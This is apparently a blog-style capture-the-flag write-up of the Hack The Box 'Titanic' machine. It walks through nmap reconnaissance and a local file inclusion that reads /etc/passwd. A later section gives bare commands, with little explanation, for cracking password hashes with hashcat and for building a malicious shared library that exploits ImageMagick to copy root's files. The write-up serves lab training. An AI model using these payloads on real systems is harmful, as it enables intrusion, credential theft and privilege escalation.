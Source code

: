 ```yaml
---
title: "HTB Lab | Linux - Titanic"
date: 2025-06-25T23:15:00+07:00
draft: false
tags: ["Linux", "HTB", "HTB Machines", "Web", "Hashcat", "Local File Inclusion", "ImageMagick"]
categories: ["CTF Writeups"]
summary: "How I solved Hack The Box's vulnerable machine \"Titanic\"."
---
```

[![htb-titanic-1.png](htb-titanic-1.png)](https://app.hackthebox.com/machines/648)

# Reconnaissance

Start the machine, the IP given is `10.10.11.55`. We begin by performing an nmap scan on it, revealing 2 open ports:
```
$ nmap -sV 10.10.11.55
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-25 15:29 EDT
Nmap scan report for titanic.htb (10.10.11.55)
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.32 seconds
```
When visiting `http://10.10.11.55`, it will redirect you to `http://titanic.htb`. Here, add `10.10.11.55 titanic.htb` to your `/etc/hosts` file - this resolves the IP as `titanic.htb` automatically.

Exploring the website, we notice there is a form when clicking on "Book Your Trip". 

![htb-titanic-2.png](htb-titanic-2.png)

Filling in garbage information and submit, a JSON file is downloaded. Viewing it shows the information that we just inputted. My initial suspicision was a vulnerability in the actual input fields, but this yields no result. 

# Web Exploitation
I turn to using Burp Suite to intercept the requests upon clicking 'Submit', revealing a `POST http://titanic.htb/book` and `GET http://titanic.htb/download?ticket=6a516344-0c5b-4936-a025-c364b30565e8.json`.

```
GET /download?ticket=6a516344-0c5b-4936-a025-c364b30565e8.json HTTP/1.1
Host: titanic.htb
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titanic.htb/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Notice that the downloaded file is explicitly shown in the URL. Send this request over to Burp Suite's Repeater, and test for [Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion) by replacing the request as `/download?ticket=/etc/passwd`.

![htb-titanic-3.png](htb-titanic-3.png)

As shown, this was successful in revealing the content of `/etc/passwd`. If you are aware or just through pure intuition that this file is for storing user accounts information, you can naively obtain the user flag by finding the user account `developer` and use LFI `/home/developer/user.txt` to output its content. However, in a real attack, it's likely certain we do not know the exact file name or directory of what we are searching for.

# Gaining Access

```sh
echo -n "2d149e5fbd1b20cf31db3e3c6a28fc9b" | xxd -r -p | base64
```

```sh
hashcat -m 10900 hashes.txt /usr/share/wordlists/rockyou.txt 
```

```sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

```sh
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
	system("cp /root/root.txt root.txt; chmod 777 root.txt");
    exit(0);
}
EOF
```

# Learned Skills
- Practical CVE research and hands-on exploitation of ImageMagick vulnerability on actual Linux web server.
